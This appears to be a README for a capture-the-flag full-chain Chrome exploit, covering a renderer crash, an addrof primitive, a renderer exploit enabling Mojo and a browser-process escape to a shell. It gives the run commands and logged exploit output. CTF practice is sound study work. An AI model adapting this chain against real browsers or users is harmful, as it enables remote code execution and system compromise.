 This directory contains the HTML files that can be loaded into the vulnerable chrome challenge to demonstrate the different stages of exploitation.

They should be copied to wherever the chromium directory is and depending on the stage of the exploit, executed with different commands.

Importantly, the location of the mojo_bindings import should be adjusted if the path is different on your system.

For example, the import paths for mojo in [3-full-browser-exploit.html](3-full-browser-exploit.html) should be changed to:
```html
<script src="mojo/mojo_bindings.js"></script>
<script src="mojo/third_party/blink/public/mojom/CTF/ctf_interface.mojom.js"></script>
<script src="mojo/third_party/blink/public/mojom/blob/blob_registry.mojom.js"></script>
```

when the exploit is run on the target QEMU VM since the mojo bindings are symlinked to the path called `mojo`.

#### Example Usages:

[0-renderer-crash.html](0-renderer-crash.html) demonstrates the minimum proof-of-concept code for triggering the out-of-bounds write vulnerability in order to crash the renderer process. The minimum flags for running chrome are provided in the command below.
```bash
$ ./chrome --headless --disable-gpu --enable-logging=stderr --user-data-dir=/tmp/userdata 0-renderer-crash.html
[1111/084548.510303:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/084548.527723:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/084548.527725:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/084548.556097:ERROR:gpu_init.cc(441)] Passthrough is not supported, GL is swiftshader
[1111/084548.568399:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
Received signal 11 SEGV_ACCERR 2404512217ff
#0 0x55dc854a95c9 base::debug::CollectStackTrace()
#1 0x55dc85414763 base::debug::StackTrace::StackTrace()
#2 0x55dc854a90f1 base::debug::(anonymous namespace)::StackDumpSignalHandler()
#3 0x7f6f0d39c3c0 (/usr/lib/x86_64-linux-gnu/libpthread-2.31.so+0x153bf)
#4 0x55dc84b81860 Builtins_ObjectToString
  r8: 0000000000000000  r9: 0000240408048771 r10: 00003218002a4fc9 r11: 000032180020c1da
 r12: 0000321800508000 r13: 0000321800508000 r14: 0000240400000000 r15: 0000240408204b09
  di: 00000000000080de  si: 0000240408203e99  bp: 00007ffc3e58a430  bx: 0000000000000000
  dx: 0000240408004b71  ax: 0000240408048771  cx: 0000240451221800  sp: 00007ffc3e58a408
  ip: 000055dc84b81860 efl: 0000000000010287 cgf: 002b000000000033 erf: 0000000000000004
 trp: 000000000000000e msk: 0000000000000000 cr2: 00002404512217ff
[end of stack trace]
[1111/084548.735641:ERROR:headless_shell.cc(423)] Abnormal renderer termination.
```

[0-renderer-addrof-dbg.html](0-renderer-addrof-dbg.html) demonstrates the minimum proof-of-concept code for using the out-of-bounds write vulnerability to create the addrof object primitive. Additionally, it demonstrates the debugging technique of introducing an infinite loop on a non-crashing function in order to debug the renderer process.
```bash
$ ./chrome --headless --disable-gpu --enable-logging=stderr --user-data-dir=/tmp/userdata 0-renderer-addrof-dbg.html 
[1111/084719.469815:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/084719.488287:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/084719.488274:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/084719.514548:ERROR:gpu_init.cc(441)] Passthrough is not supported, GL is swiftshader
[1111/084719.543897:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/084719.558807:INFO:CONSOLE(24)] "1111", source: file:///home/user/full-chain-practice/google-ctf-21/full_chain/exploits/browser/0-renderer-addrof-dbg.html (24)
```

[1-renderer-exploit.html](1-renderer-exploit.html) demonstrates the renderer exploit which enables mojo in the browser process. The `--remote-debugging-port=9222` flag must be added to the command for running chrome in order to execute the next phase of the exploit assuming that [2-browser-exploit.html](2-browser-exploit.html) is available in the same current directory for chrome to access.
```bash
./chrome --headless --disable-gpu --enable-logging=stderr --user-data-dir=/tmp/userdata 1-renderer-exploit.html 
[1111/085014.488743:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/085014.507291:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/085014.517018:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/085014.531820:ERROR:gpu_init.cc(441)] Passthrough is not supported, GL is swiftshader
[1111/085014.558891:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/085014.581410:INFO:CONSOLE(126)] "[+] Renderer exploit!", source: file:///home/user/Public/chromium/1-renderer-exploit.html (126)
[1111/085014.581654:INFO:CONSOLE(53)] "[+] z.length = 17476", source: file:///home/user/Public/chromium/1-renderer-exploit.html (53)
[1111/085014.581840:INFO:CONSOLE(59)] "[+] heap_upper = 0xce00000000", source: file:///home/user/Public/chromium/1-renderer-exploit.html (59)
[1111/085014.589288:INFO:CONSOLE(105)] "[+] addr_div = 0xce080519d0", source: file:///home/user/Public/chromium/1-renderer-exploit.html (105)
[1111/085014.589331:INFO:CONSOLE(107)] "[+] <HTMLDivElement> = 0x555c535cb7c0", source: file:///home/user/Public/chromium/1-renderer-exploit.html (107)
[1111/085014.589350:INFO:CONSOLE(109)] "[+] chrome_base = 0x555c47410000", source: file:///home/user/Public/chromium/1-renderer-exploit.html (109)
[1111/085014.589366:INFO:CONSOLE(115)] "[+] Overwriting flags..", source: file:///home/user/Public/chromium/1-renderer-exploit.html (115)
[1111/085014.690607:INFO:CONSOLE(220)] "[+] Browser exploit!", source: file:///home/user/Public/chromium/2-browser-exploit.html (220)
```

[2-browser-exploit.html](2-browser-exploit.html) demonstrates the browser exploit that exploits the vulnerable CtfInterface object introduced into mojo in order to execute a user-privileged shell. Importantly, the mojo_bindings path must be available and imported properly in the HTML. We can test this exploit individually by enabling mojo with the `--enable-blink-features=MojoJS` command-line flag and the `--remote-debugging-port=9222`. The full command and example usage is listed below. This exploit may take multiple throws to complete successfully.
```bash
$ ./chrome --headless --enable-blink-features=MojoJS --disable-gpu --remote-debugging-port=9222 --enable-logging=stderr --user-data-dir=/tmp/userdata 2-browser-exploit.html 
[1111/085844.500026:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/085844.518774:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/085844.525945:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 

DevTools listening on ws://127.0.0.1:9222/devtools/browser/34ef734a-0c9f-4410-af0e-b6906cf1e65a
[1111/085844.558952:ERROR:gpu_init.cc(441)] Passthrough is not supported, GL is swiftshader
[1111/085844.565969:WARNING:resource_bundle.cc(406)] locale_file_path.empty() for locale 
[1111/085844.683590:INFO:CONSOLE(220)] "[+] Browser exploit!", source: file:///home/user/Public/chromium/2-browser-exploit.html (220)
[1111/085844.929893:INFO:CONSOLE(92)] "[+] offset = -4768", source: file:///home/user/Public/chromium/2-browser-exploit.html (92)
[1111/085844.929940:INFO:CONSOLE(94)] "[-] Bad luck!", source: file:///home/user/Public/chromium/2-browser-exploit.html (94)
[1111/085845.004762:INFO:CONSOLE(220)] "[+] Browser exploit!", source: file:///home/user/Public/chromium/2-browser-exploit.html (220)
[1111/085845.245462:INFO:CONSOLE(92)] "[+] offset = -24860", source: file:///home/user/Public/chromium/2-browser-exploit.html (92)
[1111/085845.245500:INFO:CONSOLE(94)] "[-] Bad luck!", source: file:///home/user/Public/chromium/2-browser-exploit.html (94)
[1111/085845.318878:INFO:CONSOLE(220)] "[+] Browser exploit!", source: file:///home/user/Public/chromium/2-browser-exploit.html (220)
[1111/085845.552275:INFO:CONSOLE(92)] "[+] offset = 46352", source: file:///home/user/Public/chromium/2-browser-exploit.html (92)
[1111/085845.552314:INFO:CONSOLE(97)] "[+] addr_ctfi = 0x116600ef4aa0", source: file:///home/user/Public/chromium/2-browser-exploit.html (97)
[1111/085845.552332:INFO:CONSOLE(98)] "[+] addr_elm = 0x116600e9a220", source: file:///home/user/Public/chromium/2-browser-exploit.html (98)
[1111/085845.552347:INFO:CONSOLE(99)] "[+] chrome_base = 0x55ed5d7b3000", source: file:///home/user/Public/chromium/2-browser-exploit.html (99)
[1111/085845.552580:INFO:CONSOLE(107)] "[+] Probing victim...", source: file:///home/user/Public/chromium/2-browser-exploit.html (107)
[1111/085845.623435:INFO:CONSOLE(137)] "[+] Found victim!", source: file:///home/user/Public/chromium/2-browser-exploit.html (137)
[1111/085845.632756:INFO:CONSOLE(216)] "[+] Done", source: file:///home/user/Public/chromium/2-browser-exploit.html (216)
$ whoami
user
```

